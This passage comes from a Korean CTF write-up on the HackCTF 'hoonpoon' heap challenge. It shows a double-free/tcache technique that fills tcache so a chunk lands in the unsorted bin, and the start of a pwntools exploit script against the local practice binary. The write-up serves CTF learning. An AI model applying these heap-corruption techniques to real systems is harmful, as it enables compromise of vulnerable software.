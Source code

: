 1. unsorted bin에 청크를 삽입하는 다른 방법.

        add(0,0x100,p64(0)+p64(0x10))
        add(1,0x10,"A")
        delete(0)
        delete(0)
        delete(0)
        delete(0)
        delete(0)
        delete(0)
        delete(0)
        delete(0)

    - add(0x100) 만큼 할당받고, 이것도 마찬가지로 top 청크 사이의 거리를 맞춰주기 위해 add(0x10)한번 더함
    - 그다음 free를 8번 시키면 7개까지는 tcache로 들어가고, 마지막 free는 0x100 크기 이므로 unsorted bin에 들어감

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF/Untitled%2013.png)

2. 그다음은 첫번째 시나리오와 동일하게 진행하면 됨



최종 익스코드는 다음과 같다 (첫번째 시나리오 기준 익스 코드)

    # -*- coding: utf-8 -*-
    from pwn import *
    context(arch="amd64",os="linux",log_level="DEBUG")
    #p=remote("ctf.j0n9hyun.xyz",3041)
    env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc-2.27.so")}
    p=process("./hoonpoon")
    e=ELF("./hoonpoon")
    libc=ELF("./libc-2.27.so")
    gdb.attach(p,'code\nb *0xb75+$code\n')
    
    def add(index,size,content):
    	p.sendlineafter(">> ","1")
    	p.sendlineafter("인덱스를 입력하시오:\n",str(index))
    	p.sendlineafter("크기를 입력하시오:\n",str(size))
    	p.sendafter("데이터를 입력하시오:\n",str(content))
    
    def update(index,content):
            p.sendlineafter(">> ","2")
            p.sendlineafter("인덱스를 입력하시오:\n",str(index))
            p.sendafter("수정할 데이터를 입력하시오:\n",str(content))
    
    def delete(index):
            p.sendlineafter(">> ","3")
            p.sendlineafter("인덱스를 입력하시오:\n",str(index))
    
    def check(index):
            p.sendlineafter(">> ","4")
            p.sendlineafter("인덱스를 입력하시오:\n",str(index))
    
    
    add(0,0x20,p64(0)+p64(0x10))
    